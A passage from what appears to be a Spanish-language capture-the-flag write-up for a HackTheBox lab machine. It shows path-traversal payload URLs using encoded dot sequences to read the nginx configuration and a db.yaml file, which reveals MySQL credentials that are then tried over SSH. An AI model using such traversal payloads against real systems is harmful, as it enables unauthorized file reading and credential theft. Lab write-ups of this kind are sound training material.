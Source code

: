 Vimos anteriormente que era un ngix. Ahora que podemos leer podemos ir directamente a los archivos interesantes. Según google en ngix

By default on Debian systems, Nginx server blocks configuration files are stored in /etc/nginx/sites-available directory, which are enabled through symbolic links to the /etc/nginx/sites-enabled/ directory. You can name the configuration file as you like but usually it is best to use the domain name

http://hackmedia.htb/display/?page=‥/‥/‥/‥/‥/‥/‥/etc/nginx/sites-enabled/default

![](assets/2022-07-02-20-08-34.png)

Vemos que en db.yaml hay una password

![](assets/2022-07-03-11-03-49.png)

```bash
#Aparece un location así que probamos con las diferentes 
http://hackmedia.htb/display/?page=‥/‥/‥/‥/‥/‥/‥/home/code/db.yaml
http://hackmedia.htb/display/?page=‥/‥/‥/‥/‥/‥/‥/home/code/coder/db.yaml

#Listo, ya aparece un código


mysql_host: "localhost"
mysql_user: "code"
mysql_password: "B3stC0d3r2021@@!"
mysql_db: "user"
```
Probamos con ssh
